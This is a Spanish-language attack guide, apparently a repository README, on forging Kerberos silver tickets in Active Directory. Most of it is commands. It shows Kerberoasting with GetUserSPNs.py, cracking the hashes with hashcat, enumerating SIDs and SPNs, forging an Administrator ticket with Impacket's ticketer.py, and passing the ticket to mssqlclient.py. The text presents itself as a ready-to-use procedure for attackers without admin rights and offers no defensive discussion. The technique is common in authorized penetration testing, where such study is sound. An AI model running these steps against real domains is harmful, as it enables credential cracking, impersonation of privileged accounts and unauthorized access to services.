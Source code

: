 # Ataque Silver Ticket

Un ataque de *silver ticket* consiste en forjar un ticket de servicio Kerberos para obtener acceso no autorizado a un servicio específico en un servidor. A diferencia de un *golden ticket*, que permite acceso a cualquier recurso del dominio, el *silver ticket* se enfoca en un servicio concreto (por ejemplo, MSSQL) y puede usarse para hacerse pasar por un administrador u otra cuenta privilegiada en ese servicio.

## Requisitos

Para realizar un ataque de *silver ticket*, necesitas lo siguiente:

- **Hash NTLM de la cuenta de servicio**: El hash de la cuenta asociada al servicio objetivo (por ejemplo, la cuenta de servicio de MSSQL).
- **SID del dominio**: El identificador de seguridad (SID) del dominio de Active Directory.
- **SID de la cuenta de servicio**: El SID de la cuenta de servicio.
- **Nombre del servicio**: El nombre del servicio principal de Kerberos (SPN) del servicio objetivo (por ejemplo, MSSQLSvc).
- **Nombre del dominio**: El nombre de dominio completo (FQDN) de Active Directory.
- **Nombre del servidor**: El FQDN del servidor que aloja el servicio.

### Comandos para Obtener la Información Requerida (Sin Permisos de Administrador)

1. **Obtener el hash NTLM de la cuenta de servicio**:
   - Sin permisos de administrador, puedes intentar obtener el hash NTLM de la cuenta de servicio mediante técnicas como:
     - **Kerberoasting**: Solicita tickets de servicio (TGS) para cuentas con SPN y extrae el hash.
       ```bash
       GetUserSPNs.py -dc-ip <DC_IP> <DOMINIO>/<USUARIO>:<CONTRASEÑA> -request
       ```
       - Esto devuelve tickets cifrados que puedes crackear con herramientas como `hashcat` para obtener el hash NTLM.
       - Ejemplo:
         ```bash
         GetUserSPNs.py -dc-ip 192.168.1.10 example.com/usuario:contraseña -request
         ```
       - Usa `hashcat` para crackear el hash:
         ```bash
         hashcat -m 13100 <TGS_HASH> /ruta/a/wordlist.txt
         ```

2. **Obtener el SID del dominio**:
   - Usa `ldapsearch` o herramientas de enumeración como `rpcclient` con credenciales de usuario estándar.
     ```bash
     rpcclient -U "<DOMINIO>/<USUARIO>%<CONTRASEÑA>" <DC_IP>
     rpcclient> lookupnames <NOMBRE_DOMINIO>
     ```
     - El SID del dominio tiene el formato `S-1-5-21-<números_específicos_del_dominio>`.
     - Alternativamente, con PowerShell (si tienes acceso):
       ```powershell
       [System.Security.Principal.WindowsIdentity]::GetCurrent().User.AccountDomainSid
       ```

3. **Obtener el SID de la cuenta de servicio**:
   - Usa `rpcclient` para enumerar el SID de la cuenta de servicio.
     ```bash
     rpcclient -U "<DOMINIO>/<USUARIO>%<CONTRASEÑA>" <DC_IP>
     rpcclient> lookupnames <NOMBRE_CUENTA_SERVICIO>
     ```
     - El SID de la cuenta de servicio es el SID del dominio más un identificador relativo (RID), por ejemplo, `S-1-5-21-<números_específicos_del_dominio>-<RID>`.
     - Alternativamente, con PowerShell:
       ```powershell
       Get-ADUser -Identity <NOMBRE_CUENTA_SERVICIO> -Server <DC_FQDN> | Select-Object SID
       ```

4. **Identificar el nombre del servicio**:
   - Enumera los SPN del servicio objetivo con `setspn` o consultas LDAP.
     ```bash
     setspn -T <DOMINIO> -Q */*
     ```
     - Busca el SPN, por ejemplo, `MSSQLSvc/<SERVIDOR_FQDN>:<PUERTO>` para MSSQL.
     - Con PowerShell:
       ```powershell
       Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName | Where-Object { $_.ServicePrincipalName -like "*<SERVICIO>*" }
       ```

5. **Nombre del dominio**:
   - Es el FQDN del dominio, por ejemplo, `example.com`. Esto suele obtenerse durante la enumeración inicial.

6. **Nombre del servidor**:
   - El FQDN del servidor que aloja el servicio, por ejemplo, `sqlserver.example.com`. Se obtiene del SPN o mediante enumeración de red.

## Forjar el Silver Ticket con Impacket

1. **Crear el Silver Ticket**:
   - Usa `ticketer.py` de Impacket para forjar el ticket Kerberos.
     ```bash
     python3 ticketer.py -nthash <NTLM_HASH> -domain-sid <SID_DOMINIO> -domain <NOMBRE_DOMINIO> -spn <NOMBRE_SERVICIO> -user-id <RID_CUENTA_SERVICIO> <USUARIO_OBJETIVO>
     ```
     - Parámetros:
       - `-nthash`: El hash NTLM de la cuenta de servicio.
       - `-domain-sid`: El SID del dominio (sin el RID).
       - `-domain`: El FQDN del dominio (por ejemplo, `example.com`).
       - `-spn`: El nombre del servicio principal (por ejemplo, `MSSQLSvc/sqlserver.example.com:1433`).
       - `-user-id`: El RID de la cuenta de servicio (la última parte del SID de la cuenta).
       - `<USUARIO_OBJETIVO>`: El usuario a impersonar (por ejemplo, `Administrator`).
     - Ejemplo:
       ```bash
       python3 ticketer.py -nthash aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -domain-sid S-1-5-21-123456789-987654321-123456789 -domain example.com -spn MSSQLSvc/sqlserver.example.com:1433 -user-id 1105 Administrator
       ```
     - Esto genera un archivo `.ccache` con el ticket forjado.

2. **Configurar la variable de entorno para el ticket Kerberos**:
   - Exporta el ticket para usarlo con otras herramientas de Impacket.
     ```bash
     export KRB5CCNAME=/ruta/al/ticket.ccache
     ```

3. **Realizar Pass-the-Ticket (PTT)**:
   - Usa una herramienta de Impacket como `mssqlclient.py`, `psexec.py` o `smbexec.py` para acceder al servicio objetivo con el ticket forjado.
     - Ejemplo para MSSQL:
       ```bash
       python3 mssqlclient.py -k <DOMINIO>/<USUARIO_OBJETIVO>@<SERVIDOR_FQDN> -dc-ip <DC_IP>
       ```
       - `-k`: Indica autenticación Kerberos usando el ticket en `KRB5CCNAME`.
       - Ejemplo:
         ```bash
         python3 mssqlclient.py -k example/Administrator@sqlserver.example.com -dc-ip 192.168.1.10
         ```
       - Esto conecta al servicio MSSQL como el usuario impersonado (por ejemplo, `Administrator`).

## Notas
- Asegúrate de que el reloj del sistema esté sincronizado con el controlador de dominio para evitar problemas con los tickets Kerberos.
    - Comando: `sudo ntpdate -u <IP_DC>` 
- El ticket forjado solo es válido para el servicio y servidor especificados.
- Prueba el ticket con herramientas como `mssqlclient.py` para MSSQL o con otras herramientas de Impacket para diferentes servicios (por ejemplo, `psexec.py` para CIFS).
- Si el ticket falla, verifica la precisión del SPN, el hash y los SIDs.
- Sin permisos de administrador, el éxito del ataque depende de obtener el hash NTLM mediante técnicas como *Kerberoasting*.
